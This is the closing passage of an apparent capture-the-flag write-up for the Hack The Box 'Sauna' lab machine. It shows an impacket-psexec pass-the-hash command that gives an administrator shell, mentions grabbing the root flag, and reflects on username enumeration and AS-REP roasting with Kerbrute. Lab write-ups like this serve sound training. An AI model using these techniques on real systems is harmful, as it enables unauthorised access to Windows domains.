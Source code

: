 ```text
┌──(ryan㉿kali)-[~/HTB/Sauna]
└─$ impacket-psexec administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```

![admin_shell.png](../assets/sauna_assets/admin_shell.png)

All that's left to do now is grab the root.txt file on the Administrator's Desktop:

![root_flag.png](../assets/sauna_assets/root_flag.png)

### Something Extra

One of my favorite things about this box was finding Hugo Smith's name, trying out and then confirming the appropriate naming convention for usernames, and simply applying that logic to other found names to generate a working users list. 

Funnily enough, I also launched Kerbrute against the box after rooting it the first time, just trying to enumerate users, and Kerbute was able to ASREP roast fsmith's ticket, completely bypassing what was (in my opinion) the most interesting part of the box!
